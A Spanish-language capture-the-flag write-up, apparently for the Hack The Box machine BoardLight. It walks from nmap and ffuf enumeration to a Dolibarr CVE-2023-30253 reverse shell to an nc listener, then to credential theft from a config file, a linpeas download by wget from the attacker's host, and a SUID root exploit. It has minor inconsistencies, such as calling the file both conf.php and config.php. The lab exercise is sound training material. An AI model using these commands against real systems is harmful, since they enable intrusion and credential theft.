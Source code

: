 <h1>Enumeración</h1>
<p>Comenzamos la enumeración de la máquina víctima ejecutando un ping a la IP objetivo 10.10.11.11 para comprobar que la máquina está activa:</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/9d4b7303-ca0f-4a1e-9f72-f86a23caea0e" alt="Ping result">
</p>
<p>Como podemos observar, la máquina está activa ya que nos devuelve el ping y, por el ttl=63, podemos intuir que estamos ante una máquina Linux.</p>
<p>Vamos ahora a realizar un escaneo sencillo con nmap para ver qué puertos están abiertos y qué servicios corren en ellos:</p>

sudo nmap -p- -sV -sS --min-rate 5000 -n 10.10.11.11 -oN scan.txt
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/e3c448fb-1c9d-4ca8-b66f-7a5373852a0d" alt="Nmap scan results">
</p>
<p>Podemos ver que los puertos 22 (SSH) y 80 (HTTP) están abiertos y corriendo un servidor OpenSSH y un servidor web Apache respectivamente, por lo que vamos a intentar acceder al servidor de Apache a través del navegador:</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/0f393783-6013-45c9-9e85-b03800732a86" alt="Apache server">
</p>
<p>Como podemos ver, el servidor resuelve rápido la petición a través de la IP y llegamos a esta página de destino. Vamos a echar un vistazo a ver si vemos algo interesante...</p>
<p>Al tratarse de un sitio web hecho en PHP, podemos intentar explotar algún tipo de LFI empleando algún wrapper de PHP desde la propia URL del sitio. En concreto, si enviamos un formulario vacío que podemos encontrar en el pie de página, vemos que se realiza una petición (<code>10.10.11.11/index.php?</code>), vamos a ver si podemos explotarlo:</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/a3d5eb64-457f-428d-be39-8eb23d05f860" alt="Empty form request">
</p>
<p>Como podemos ver en la petición del formulario, no se envía ningún tipo de dato y simplemente nos recarga la misma página de contacto:</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/a3d5eb64-457f-428d-be39-8eb23d05f860" alt="Contact form response">
</p>
<p>Puesto que no podremos explotar un LFI ni un potencial SSRF, vamos a seguir con el proceso de enumeración haciendo fuzzing para encontrar directorios o subdominios potencialmente vulnerables. Un dato interesante es que encontramos un correo de contacto en el pie de página de la web que nos sugiere que existe un dominio <code>board.htb</code>.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/e7b003d9-e67c-40d4-8d33-19698f4402eb" alt="Email contact">
</p>
<p>Así que podemos añadir este dominio a nuestro <code>/etc/hosts</code> ya que si lo probamos en el navegador nos dirige al mismo servidor web.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/11714c8e-07da-4d02-a67f-3eb37fabba9c" alt="Adding domain to hosts">
</p>
<p>Ahora, vamos con el fuzzing. Usaremos la herramienta ffuf y un diccionario de SecList para ver qué encontramos:</p>
bash
Copiar código
sudo ffuf -u http://FUZZ.board.htb -t 200 -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
<p>Este comando con ffuf nos encuentra el subdominio <code>crm</code>, por lo que existe <code>crm.board.htb</code>. Vamos a añadirlo al <code>/etc/hosts</code> y a acceder a él a ver qué contiene:</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/18bc9fb8-748e-4183-82f4-0734f35eb6d8" alt="Subdomain crm">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/d69fa083-1a2a-417c-84f0-0ac22077311b" alt="CRM login page">
</p>
<p>En este subdominio, podemos acceder a una página de inicio de sesión del conocido gestor de relaciones con los clientes, Dolibarr, en su versión 17.0.0.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/3b79efd3-dd75-45d2-b338-33ed3b440877" alt="Dolibarr login">
</p>
<p>Si buscamos algo de información en Google acerca de este software y dicha versión, podemos ver que existe una vulnerabilidad asociada que nos permite explotar ejecución remota de comandos (RCE) y otorgarnos una shell reversa. La vulnerabilidad está reportada como la CVE-2023-30253 y el repositorio de GitHub encontrado para esta vulnerabilidad, que contiene un script en Python, es el siguiente: <a href="https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253">https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253</a>.</p>
<p>De este modo, vamos a descargarnos y a ejecutar el script en Python para otorgarnos una shell reversa del siguiente modo:</p>
bash
Copiar código
# En nuestra máquina local:
nc -lvnp 9001
# En la máquina víctima:
python3 exploit.py http://crm.board.htb admin admin 10.10.14.28 9001
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/2c3a47f3-58b0-4fa2-b995-993ec3ad8055" alt="Exploit execution">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/9892eec0-9b0e-4451-a8f0-0a0cb4f1e665" alt="Reverse shell">
</p>
<p>Si dentro de la máquina víctima retrocedemos un par de directorios hacia atrás en busca de algo interesante, podemos detenernos en la ruta <code>/htbdocs</code> y, si listamos el contenido con <code>ls -la</code>, podemos encontrar un fichero <code>conf.php</code> que puede resultar interesante para este tipo de servidores ya que suele contener usuarios y credenciales de alguna base de datos que se esté usando.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/72d83f29-d067-4ec4-8e2d-c65de7956112" alt="Config directory">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/c5118307-7d72-42ac-a226-935d1a332bce" alt="Config file">
</p>
<p>Y efectivamente, dentro de <code>config.php</code> encontramos credenciales de acceso para una base de datos MySQL.</p>
<p>Si intentamos acceder a la base de datos MySQL, el sistema nos indica que no tenemos permiso de acceso como usuario <code>www-data</code> por lo que tendremos que encontrar otra vía de acceso.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/fad76804-5738-4fb6-a192-d1f51ec81984" alt="MySQL access denied">
</p>
<p>Retrocediendo hasta el directorio <code>/home</code>, encontramos el directorio de un usuario a nivel de sistema llamado <code>larissa</code>, así que podemos probar a iniciar sesión en SSH con este usuario y con la credencial obtenida en <code>conf.php</code> mediante el script anterior de Python.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/1f8a1f5d-d523-45a5-93f2-93128b843ca7" alt="SSH login">
</p>
<p>Y una vez dentro del usuario de <code>larissa</code>, ya tenemos visible la primera flag, <code>user.txt</code>. Vamos ahora a por la bandera del root.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/33b7cd4b-0fe7-413c-8622-544562ffdf1c" alt="User flag">
</p>
<p>Como no tenemos ningún tipo de permiso elevado con este usuario, vamos a descargarnos el script <code>linpeas.sh</code> para realizar un escaneo exhaustivo en busca de alguna vulnerabilidad.</p>
<p>Descargamos el script en: <a href="https://github.com/peass-ng/PEASS-ng/releases/tag/20240616-43d0a061">https://github.com/peass-ng/PEASS-ng/releases/tag/20240616-43d0a061</a></p>
bash
Copiar código
# En nuestra máquina local:
python3 -m http.server 3333
# En la máquina víctima:
wget 10.10.14.101:3333/linpeas.sh
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/dbf73b98-0b5b-4463-9fef-5f71d32425a2" alt="Downloading linpeas.sh">
</p>
<p>Y finalmente, le damos permisos y lo ejecutamos:</p>
chmod +x linpeas.sh
./linpeas.sh
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/0611dbdb-e80f-4ac3-ab16-af3659aa08f9" alt="Linpeas execution">
</p>
<p>Como podemos ver, el script nos reporta varias vulnerabilidades. En concreto, si nos dirigimos a la sección de ficheros con permisos interesantes, podemos encontrar concretamente 4 archivos en los que se indica que no se conoce el SUID en binario, lo cual podemos explotar.</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/59237ecc-7b2e-4d66-af6f-dbb724e328ec" alt="Linpeas findings">
</p>
<p>En concreto, si buscamos <code>enlightenment suid exploit</code>, existe un repositorio en GitHub, así que vamos a descargarnos el exploit y a probarlo:</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/e8202daf-eb53-4715-b933-9f1b30ba5df8" alt="Exploiting SUID">
</p>
<p>Y finalmente, hemos conseguido una terminal con el usuario root, encontramos la bandera en <code>/root</code> y hemos completado BoardLight, ¡Enhorabuena!</p>
<p align="center">
  <img src="https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/2d83e789-d114-4e3e-8bb7-fb4d713b81a7" alt="Root flag">
</p>
